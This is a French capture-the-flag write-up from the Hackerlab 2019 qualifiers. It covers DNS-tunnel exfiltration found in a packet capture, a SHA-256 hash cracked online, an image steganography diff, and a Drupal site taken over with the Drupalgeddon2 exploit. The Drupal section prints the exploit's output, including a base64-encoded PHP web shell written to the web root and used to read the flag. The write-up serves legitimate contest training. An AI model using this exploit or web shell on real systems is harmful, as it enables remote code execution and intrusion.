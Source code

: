 

* * * * *

                        Covert Channel - Forensic

* * * * *

Enoncé: Le gayeman DJAKPAGLO est maintenant aux mains de l'OCRC. Mais Il semble que DJAKPATAGLO ait des espions au sein du bjCSIRT. Ces derniers arrivent à contourner les mesures de sécurité mises en place pour exfiltrer des données vers leur chef en prison. Le SOC du bjCSIRT a répéré cela à travers une capture réseau, qu'il vous envoie pour analyse.

Le but est d'analyser la capture réseau.

En analysant la capture réseau, nous sommes tombé sur des paquets DNS contenant apparemment des hashs suivies de ".cyber.hackirlab.local" ce qui attire notre attention. Nous allons les extraires:

\$ tshark -r capture.pcap -Y dns 2793 86.754401 192.168.56.101 → 192.168.56.110 DNS 165 Standard query 0xfe9c A 4c6f72656d20697073756d20646f6c6f722073697420616d65742c20636f.cyber.hackirlab.local OPT 2794 86.754679 192.168.56.110 → 192.168.56.101 DNS 235 Standard query response 0xfe9c No such name A 4c6f72656d20697073756d20646f6c6f722073697420616d65742c20636f.cyber.hackirlab.local SOA hackirlab.bj.hackirlab.local OPT 2795 86.810865 192.168.56.101 → 192.168.56.110 DNS 165 Standard query 0x1210 A 6e73656374657475722061646970697363696e6720656c69742c20736564.cyber.hackirlab.local OPT 2796 86.811106 192.168.56.110 → 192.168.56.101 DNS 235 Standard query response 0x1210 No such name A 6e73656374657475722061646970697363696e6720656c69742c20736564.cyber.hackirlab.local SOA hackirlab.bj.hackirlab.local OPT 2797 86.849345 192.168.56.101 → 192.168.56.110 DNS 165 Standard query 0x1ef1 A 20646f20656975736d6f642074656d706f7220696e6369646964756e7420.cyber.hackirlab.local OPT 2798 86.849595 192.168.56.110 → 192.168.56.101 DNS 235 Standard query response 0x1ef1 No such name A 20646f20656975736d6f642074656d706f7220696e6369646964756e7420.cyber.hackirlab.local SOA hackirlab.bj.hackirlab.local OPT 2799 86.880560 192.168.56.101 → 192.168.56.110 DNS 165 Standard query 0x0a85 A 7574206c61626f726520657420646f6c6f7265206d61676e6120616c6971.cyber.hackirlab.local OPT 2800 86.880743 192.168.56.110 → 192.168.56.101 DNS 235 Standard query response 0x0a85 No such name A 7574206c61626f726520657420646f6c6f7265206d61676e6120616c6971.cyber.hackirlab.local SOA hackirlab.bj.hackirlab.local OPT 2801 86.911281 192.168.56.101 → 192.168.56.110 DNS 165 Standard query 0x9521 A 75612e20557420656e696d206164206d696e696d2076656e69616d2c2071.cyber.hackirlab.local OPT 2802 86.911499 192.168.56.110 → 192.168.56.101 DNS 235 Standard query response 0x9521 No such name A 75612e20557420656e696d206164206d696e696d2076656e69616d2c2071.cyber.hackirlab.local SOA hackirlab.bj.hackirlab.local OPT ............................................................................... ................................................................................... .................................................................................. .......................................................................... 2819 87.210762 192.168.56.101 → 192.168.56.110 DNS 165 Standard query 0x9bc9 A 6f6e2070726f6964656e742c2073756e7420696e2063756c706120717569.cyber.hackirlab.local OPT 2820 87.210958 192.168.56.110 → 192.168.56.101 DNS 235 Standard query response 0x9bc9 No such name A 6f6e2070726f6964656e742c2073756e7420696e2063756c706120717569.cyber.hackirlab.local SOA hackirlab.bj.hackirlab.local OPT 2821 87.253293 192.168.56.101 → 192.168.56.110 DNS 165 Standard query 0x2f0d A 206f666669636961206465736572756e74206d6f6c6c697420616e696d20.cyber.hackirlab.local OPT 2822 87.253507 192.168.56.110 → 192.168.56.101 DNS 235 Standard query response 0x2f0d No such name A 206f666669636961206465736572756e74206d6f6c6c697420616e696d20.cyber.hackirlab.local SOA hackirlab.bj.hackirlab.local OPT 2823 87.280760 192.168.56.101 → 192.168.56.110 DNS 135 Standard query 0x2655 A 696420657374206c61626f72756d0a.cyber.hackirlab.local OPT 2824 87.280966 192.168.56.110 → 192.168.56.101 DNS 205 Standard query response 0x2655 No such name A 696420657374206c61626f72756d0a.cyber.hackirlab.local SOA hackirlab.bj.hackirlab.local OPT

Maintenant nous allons essayer de decoder tous les hashs extraits.






* * * * *

                                   Bad practice

* * * * *

Enoncé: En respectant les règles d'hygienes informatique, on ne devrait pas être amenés à faire ca 9ed6c336c58699768ee0ff4782532203a06f541aec022015d8fa4b23813a36d5 Précédez la réponse de CTF\_

Le but ici est de decoder le possible hash donné :9ed6c336c58699768ee0ff4782532203a06f541aec022015d8fa4b23813a36d5 Ensuite il faudra préceder le result de CTF\_ Essayons d'identifier le type du hash avec l'outil hash-identifier:

\$ hash-identifier \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\# \# \_\_ \_\_ \_\_ \_\_\_\_\_\_ \_\_\_\_\_ \# \# / /   /   /\_\_ *  /  * `\         #    #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #    #     \ \  _  \  /'__`  / ,**    \_ `\      \ \ \   \ \ \ \ \       #    #      \ \ \ \ \/\ \_\ \_/\__,`       \_ \_\_   \_   \# \#  \_ \_ \_** \_/\_***/  \_ \_  /\_****  \_***/ \# \# /*//*//**//*//***/ /*//*/ /*/ /***/ v1.2 \# \# By Zion3R \# \# www.Blackploit.com \# \# Root@Blackploit.com \# \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\# -------------------------------------------------- HASH: 9ed6c336c58699768ee0ff4782532203a06f541aec022015d8fa4b23813a36d5

Possible Hashs: [+] SHA-256 [+] Haval-256

Least Possible Hashs: [+] GOST R 34.11-94 [+] RipeMD-256 [+] SNEFRU-256 [+] SHA-256(HMAC) [+] Haval-256(HMAC) [+] RipeMD-256(HMAC) [+] SNEFRU-256(HMAC) [+] SHA-256(md5(\(pass)) [+] SHA-256(sha1(\)pass)) --------------------------------------------------

Nous avons donc affaire à un hash de type SHA-256. Essayons maintenant de le decoder avec CrackStation: https://crackstation.net/ Le hash est décodé:

9ed6c336c58699768ee0ff4782532203a06f541aec022015d8fa4b23813a36d5 sha256 rasdzv3

Le flag est donc CTF\_rasdzv3 Mission accomplie.

* * * * *

                        Amazones jumelles - Stéganographie

* * * * *

Enoncé: La puissance des jumelles, c'est qu'elles vont toujours de pair. C'était pareil pour les amazones.

Sur cette épreuve nous avons téléchargé deux images en format png. L'une cachant le flag. Nous allons donc comparer les deux images afin de faire ressortir le flag. Pour ce faire nous allons utiliser un outil en ligne qui nous permettra d'y arriver: https://futureboy.us/stegano/ https://futureboy.us/stegano/compinput.html

Après comparaison nous téléchageons la différence entre les deux images et nous pouvons voir le flag:

CTF\_XOR\_FDFGDGDFGE

* * * * *

                          Armageddon (End Game) - Web

* * * * *

Enoncé: Votre unité de cyber-amazones est envoyée pour défendre le pays contre l'Armageddon invoqué par DJAKPATAGLO. C'est le clap de fin du \#Hackerlab2019.

http://qualif.hackerlab.bj:8082

Après ouverture du lien dans un nouvel onglet, nous sommmes tombé sur un site conçu avec Drupal avec le message d'acceuil:

"Bienvenue sur Armagueddon Aucun contenu de page d'accueil n'a été créé pour l'instant. Suivre le Guide utilisateur pour démarrer la construction de votre site. " En allant sur le guide utilisateur à l'adresse: https://www.drupal.org/fr/docs/user\_guide/fr/index.html Nous avons su que le site a été conçu avec la version 8 de Drupal. Essayons de trouver de potentielle failles de securité et vulnérabilité.

Après une petite recherche d'exploit, nous sommes tombé sur l'exploit appelé Drupalgeddon2: CVE-2018-7600 Drupal \< 8.3.9 / \< 8.4.6 / \< 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit) codé en ruby. Nous allons l'utiliser sur le site: \$ ruby drupalgeddon2.rb http://qualif.hackerlab.bj:8082 [\*] --==[::\#Drupalggedon2::]==-- -------------------------------------------------------------------------------- [i] Target : http://qualif.hackerlab.bj:8082/ -------------------------------------------------------------------------------- [+] Header : v8 [X-Generator][!] MISSING: http://qualif.hackerlab.bj:8082/CHANGELOG.txt (HTTP Response: 404) [+] Found : http://qualif.hackerlab.bj:8082/core/CHANGELOG.txt (HTTP Response: 200) [!] MISSING: http://qualif.hackerlab.bj:8082/core/CHANGELOG.txt (HTTP Response: 200) [+] Header : v8 [X-Generator][!] MISSING: http://qualif.hackerlab.bj:8082/includes/bootstrap.inc (HTTP Response: 404) [!] MISSING: http://qualif.hackerlab.bj:8082/core/includes/bootstrap.inc (HTTP Response: 403) [!] MISSING: http://qualif.hackerlab.bj:8082/includes/database.inc (HTTP Response: 404) [+] Found : http://qualif.hackerlab.bj:8082/ (HTTP Response: 200) [+] Metatag: v8.x [Generator][!] MISSING: http://qualif.hackerlab.bj:8082/ (HTTP Response: 200) [+] Drupal?: v8.x -------------------------------------------------------------------------------- [\*] Testing: Form (user/register) [+] Result : Form valid - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - [\*] Testing: Clean URLs [+] Result : Clean URLs enabled -------------------------------------------------------------------------------- [\*] Testing: Code Execution (Method: mail) [i] Payload: echo VFCGWFFM [+] Result : VFCGWFFM [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO! -------------------------------------------------------------------------------- [\*] Testing: Existing file (http://qualif.hackerlab.bj:8082/shell.php) [!] Response: HTTP 200 // Size: 6. ***Something could already be there?*** - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - [\*] Testing: Writing To Web Root (./) [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php [+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); } [+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!! -------------------------------------------------------------------------------- [i] Fake PHP shell: curl 'http://qualif.hackerlab.bj:8082/shell.php' -d 'c=hostname' 97c08f3b7cc3\>\>

* * * * *

Là nous venons d'obtenir un shell. Essayons de rechercher le flag en listant le contenu du répertoire courant:

97c08f3b7cc3\>\> ls LICENSE.txt README.txt autoload.php composer.json composer.lock core example.gitignore flag.txt hello.txt index.php modules profiles robots.txt shell.php sites themes update.php vendor web.config 97c08f3b7cc3\>\>

On peut remarquer la présence d'un fichier flag.txt, lisons son contenu:

97c08f3b7cc3\>\> cat flag.txt CTF\_CyberAmazonWinArmagedon 97c08f3b7cc3\>\>

Bingo le flag pour cette épreuve est donc: CTF\_CyberAmazonWinArmagedon

* * * * *

* * * * *
